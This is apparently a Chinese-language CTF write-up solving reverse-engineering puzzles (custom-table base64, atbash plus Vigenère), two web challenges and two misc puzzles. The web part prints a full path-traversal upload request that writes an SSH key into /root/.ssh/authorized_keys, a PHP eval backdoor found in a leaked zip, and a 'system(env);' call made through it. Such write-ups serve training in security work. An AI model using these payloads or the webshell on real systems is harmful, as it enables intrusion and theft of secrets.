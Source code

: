 
Reverse
1.base_is_64
无壳，ida64打开，直接反编译main函数
![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733340313204-bdb679e2-a43d-4731-9df5-b19fc80a1b6a.png)

用户输入经过custom_base64_encode_hex得到"1d3732241e071a3c1e3721341d240e34111732311b0706231a18123e"

custom_base64_encode_hex：

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733340476772-64989e1a-d187-415a-b2ae-6ca2e6e6316d.png)

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733340461356-0bc3540a-96d3-44f5-ba74-b7937da646d1.png)

命名比较明显，函数进行了一次换表base64加密，再转为16进制输出

这题的难点在于换的表是十进制的1~64（标题暗示），因为有不可见ASCII，直接16进制转字符会有无法打印的情况

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733340695653-b3ca8136-b36d-4f45-988a-1d3afe375049.png)然而万能的赛博厨子可以秒：

先将表打印出来

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733341004812-e203c300-9ffe-49b2-85b1-8140a6600821.png)再直接复制粘贴换表

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733341063269-a1266bbb-b7c1-4450-8019-3ee9f8481e1d.png)当然也可以直接用url换表：

file:///D:/CyberChef_v10.4.0/CyberChef_v10.4.0.html#recipe=From_Hex('Auto')From_Base64('%5Cu0001%5Cu0002%5Cu0003%5Cu0004%5Cu0005%5Cu0006%5Cu0007%5Cb%5Ct%20%5Cu000b%5Cf%20%5Cu000e%5Cu000f%5Cu0010%5Cu0011%5Cu0012%5Cu0013%5Cu0014%5Cu0015%5Cu0016%5Cu0017%5Cu0018%5Cu0019%5Cu001a%5Cu001b%5Cu001c%5Cu001d%5Cu001e%5Cu001f%20!%22%23$%25%26%5C'()*%2B,-./0123456789:;%3C%3D%3E?@',true,false)&input=MWQzNzMyMjQxZTA3MWEzYzFlMzcyMTM0MWQyNDBlMzQxMTE3MzIzMTFiMDcwNjIzMWExODEyM2U

input后的是普通base64后的"1d3732241e071a3c1e3721341d240e34111732311b0706231a18123e"

当然你也可以自己写脚本解：

```plain
import base64

str = ''.join(chr(x) for x in [0x1d, 0x37, 0x32, 0x24, 0x1e, 0x07, 0x1a, 0x3c, 0x1e, 0x37, 0x21, 0x34, 0x1d, 0x24, 0x0e, 0x34, 0x11, 0x17, 0x32, 0x31, 0x1b, 0x07, 0x06, 0x23, 0x1a, 0x18, 0x12, 0x3e])

encoding_table = {
    chr(0x01): 'A', chr(0x02): 'B', chr(0x03): 'C', chr(0x04): 'D', chr(0x05): 'E', chr(0x06): 'F', chr(0x07): 'G', chr(0x08): 'H',
    chr(0x09): 'I', chr(0x0A): 'J', chr(0x0B): 'K', chr(0x0C): 'L', chr(0x0D): 'M', chr(0x0E): 'N', chr(0x0F): 'O', chr(0x10): 'P',
    chr(0x11): 'Q', chr(0x12): 'R', chr(0x13): 'S', chr(0x14): 'T', chr(0x15): 'U', chr(0x16): 'V', chr(0x17): 'W', chr(0x18): 'X',
    chr(0x19): 'Y', chr(0x1A): 'Z', chr(0x1B): 'a', chr(0x1C): 'b', chr(0x1D): 'c', chr(0x1E): 'd', chr(0x1F): 'e', chr(0x20): 'f',
    chr(0x21): 'g', chr(0x22): 'h', chr(0x23): 'i', chr(0x24): 'j', chr(0x25): 'k', chr(0x26): 'l', chr(0x27): 'm', chr(0x28): 'n',
    chr(0x29): 'o', chr(0x2A): 'p', chr(0x2B): 'q', chr(0x2C): 'r', chr(0x2D): 's', chr(0x2E): 't', chr(0x2F): 'u', chr(0x30): 'v',
    chr(0x31): 'w', chr(0x32): 'x', chr(0x33): 'y', chr(0x34): 'z', chr(0x35): '0', chr(0x36): '1', chr(0x37): '2', chr(0x38): '3',
    chr(0x39): '4', chr(0x3A): '5', chr(0x3B): '6', chr(0x3C): '7', chr(0x3D): '8', chr(0x3E): '9', chr(0x3F): '+', chr(0x40): '/'
}

str = str.translate(str.maketrans(encoding_table))

str2 = base64.b64decode(str)

print(str2)
```



2.oldschool
无壳，ida64打开，反编译main函数

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733338459449-f8819428-7aed-4520-9672-51cde150c9a3.png)

可以分析得知用户输入经过encode和vigenereEncrypt两个函数后与"ZZZZZ{J_ZNXA_DZYACKWNH_CAMMZQZ}"比较判断

encode函数：

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733338771746-850c9da6-9bc5-474c-abd8-8203c78f2558.png)

atbash加密，把字母按a1z26排列，前x个与倒数x个对调

vigenereEncrypt函数：

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733339242001-1f766e3a-007e-47b8-9dc7-35d567b53337.png)

如函数名，维吉尼亚加密

赛博厨子秒了：

![](https://cdn.nlark.com/yuque/0/2024/png/50711788/1733339325872-33d5272c-14c2-4236-a895-fd50171414bf.png)代码解法：

```plain
#include <stdio.h>
#include <string.h>
#include <ctype.h>
#include <stdlib.h>

void vigenereDecrypt(char *encrypted, char *key, char *decrypted) {
    int textLen = strlen(encrypted);
    int keyLen = strlen(key);
    int j = 0; // 密钥索引
    for (int i = 0; i < textLen; i++) {
        char currentChar = toupper(encrypted[i]);
        if (isalpha(currentChar)) {
            char keyChar = toupper(key[j % keyLen]);
            int shift = keyChar - 'A';
            if (islower(encrypted[i])) {
                decrypted[i] = 'a' + ((currentChar - 'a' - shift + 26) % 26); // 使用+26来确保正数结果
            } else {
                decrypted[i] = 'A' + ((currentChar - 'A' - shift + 26) % 26);
            }
            j++;
        } else {
            decrypted[i] = encrypted[i]; // 非字母字符保持不变
        }
    }
    decrypted[textLen] = '\0'; // 添加字符串结束符
}
void encode(char *text) {
    for (int i = 0; text[i] != '\0'; i++) {
        if (islower(text[i])) {
            text[i] = 'z' - (text[i] - 'a');
        } else if (isupper(text[i])) {
            text[i] = 'Z' - (text[i] - 'A'); 
        }
    }
}

 

char toUpper(char c) {
    if (islower(c)) {
        return toupper(c);
    }
    return c;
}
int main() {
    char text[100];
    char encflag[] = "ZZZZZ{J_ZNXA_DZYACKWNH_CAMMZQZ}";
    char key[100] = "SLCTF";
    char encrypted[100];
    char decrypted[100];
    vigenereDecrypt(encflag,key,decrypted);
    strcpy(text,decrypted);
    encode(text);
    printf("%s",text);
    return 0;
}
```

SLCTF{I_LOVE_OLDSCHOOL_CRYPTOS}



web
1.singularity
本题考查路径穿越漏洞的利用。

使用`jadx`工具反编译代码后，可以在源代码中找到存在漏洞的`Controller`：

![image-20241130013037264](https://cdn.bzpl.tech/api/image/private/markdown/images/image-20241130013037264.png?f=jpeg&h=1024&w=0&q=90&a=0&s=fit_height&token=eyJhbGciOiJFUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJMZU1VLlNlcnZlciIsImlhdCI6MTczMjkwMTUxMSwibmJmIjoxNzMyOTAxNTExLCJwZXJtaXNzaW9ucyI6W3sicGF0aCI6Ii9hcGkvaW1hZ2UvcHJpdmF0ZS9tYXJrZG93bi9pbWFnZXMvaW1hZ2UtMjAyNDExMzAwMTMwMzcyNjQucG5nIiwibWV0aG9kcyI6WyJHRVQiXSwicXVlcnkiOnsiZiI6ImpwZWciLCJoIjoiMTAyNCIsInciOiIwIiwicSI6IjkwIiwiYSI6IjAiLCJzIjoiZml0X2hlaWdodCJ9fV19.mmzHracfymiPsaZ7rgDhmfepfn0FDmVIiY1Kwbgls04AAX2LiBZrPsbidz48HpJlilH2fMnWAqHg5oAzn1zpkQ)

不过要实现文件上传，首先需要有管理员权限，然后还需要创建题目，因此，我们转而寻找代码是否预设了管理员用户：

在资源文件夹中，可以发现用于初始化数据库的数据信息，其中存在管理员用户名和密码：

![image-20241130012825305](https://cdn.bzpl.tech/api/image/private/markdown/images/image-20241130012825305.png?f=jpeg&h=1024&w=0&q=90&a=0&s=fit_height&token=eyJhbGciOiJFUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJMZU1VLlNlcnZlciIsImlhdCI6MTczMjkwMTMxMiwibmJmIjoxNzMyOTAxMzEyLCJwZXJtaXNzaW9ucyI6W3sicGF0aCI6Ii9hcGkvaW1hZ2UvcHJpdmF0ZS9tYXJrZG93bi9pbWFnZXMvaW1hZ2UtMjAyNDExMzAwMTI4MjUzMDUucG5nIiwibWV0aG9kcyI6WyJHRVQiXSwicXVlcnkiOnsiZiI6ImpwZWciLCJoIjoiMTAyNCIsInciOiIwIiwicSI6IjkwIiwiYSI6IjAiLCJzIjoiZml0X2hlaWdodCJ9fV19.8rG9mA-839m0Nnn8xvp8AVVMiRpofJQQ5ZN8D-iVJg1Jib1Q2WQUfDGnkllFX99B5WvQZonzhD-pL8xHKKFEPg)

得知管理员用户名：`admin`，密码`Admin123456`，同时可知`/doc.html`路径下提供了一个可供调试的`Swagger`文档。

访问`Swagger`文档后，我们先登录，然后创建类别和题目（用默认的信息即可），接下来就可以上传文件了，由于题目开放了`SSH`端口，自然想到可以通过设置`authorized_keys`来让自己能够通过特定的秘钥登陆`SSH`，因此有如下`Payload`：

```http
POST /challenge/change/1/upload HTTP/1.1
Host: 202.120.222.171
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------9051914041544843365972754266
Cookie: SESSION=[替换为你的Session]
Content-Length: 834

-----------------------------9051914041544843365972754266
Content-Disposition: form-data; name="file"; filename="../../../../../../../../root/.ssh/authorized_keys"
Content-Type: text/plain

ssh-rsa [替换为自己的公钥] vvbbnn00@foxmail.com

-----------------------------9051914041544843365972754266--


```

如此请求完毕后，直接在控制台中登陆`SSH`即可得到`Flag`：

![image-20241130013740512](https://cdn.bzpl.tech/api/image/private/markdown/images/image-20241130013740512.png?f=jpeg&h=1024&w=0&q=90&a=0&s=fit_height&token=eyJhbGciOiJFUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJMZU1VLlNlcnZlciIsImlhdCI6MTczMjkwMTg2NCwibmJmIjoxNzMyOTAxODY0LCJwZXJtaXNzaW9ucyI6W3sicGF0aCI6Ii9hcGkvaW1hZ2UvcHJpdmF0ZS9tYXJrZG93bi9pbWFnZXMvaW1hZ2UtMjAyNDExMzAwMTM3NDA1MTIucG5nIiwibWV0aG9kcyI6WyJHRVQiXSwicXVlcnkiOnsiZiI6ImpwZWciLCJoIjoiMTAyNCIsInciOiIwIiwicSI6IjkwIiwiYSI6IjAiLCJzIjoiZml0X2hlaWdodCJ9fV19.gINUyyybM-1n23P1iP7UYm15xe2Nsq1NIFEZxeqQs9-zDlQzZ3FuJm9eRCWX4g5LaGcEqxkQePPIgxg2QYJMqA)



2.Lanqiao14-遗留的压缩包

下发容器，访问链接，发现都是无关内容


联想到标题说有遗留的压缩包，尝试对该网站进行扫描，然后发现了一个压缩文件`www.zip`

下载该压缩文件并查看内容

发现一个1337.php文件，文件中的PHP代码是一个非常简单的后门程序，它的功能是接收通过 GET 请求传递的密码，如果密码的 MD5 哈希值等于特定的值，就会执行通过 POST 请求传递的代码

```
<?php
# leet
if(md5($_GET['pwd'])=='217f81b8ff0a1ab138a8e1bdc031262e'){
   eval($_POST['1337']);
}
```



同时有一个注释写了leet，经测试就是md5的原文


这同时说明了该网站存在着一个木马文件，我们可以利用该木马执行命令


同时也尝试使用蚁剑连接该木马文件


利用蚁剑找到了flag(或者用postman对`http://202.120.222.171:32332/1337.php?pwd=leet`进行POST，格式url-encoded，值为`system(env);`，也可以获取flag。






Misc
1.为什么大家都喜欢用PDF啊

两种解法，一种直接用Acrobat编辑pdf，把前面的内容拖走即可看到flag

还有一种可以用word打开pdf，也可以进行编辑看到隐藏在底下的flag



2.美丽PPT
为了欢迎大家，我专门为大家做了这个好看的PPT！我可是加了好多美丽元素与特效呢！是不是很赞呢？

看第一页，发现并没有什么东西。

但是如果我们新建一页ppt，虽然看起来是白色的，但是我们仔细观察，会发现一些非常微弱的线条，我们可以硬读出来，或者我们可以打开母版页面，全选，就可以把这些线条全部选起来，这样就可以很清楚的看到flag了。
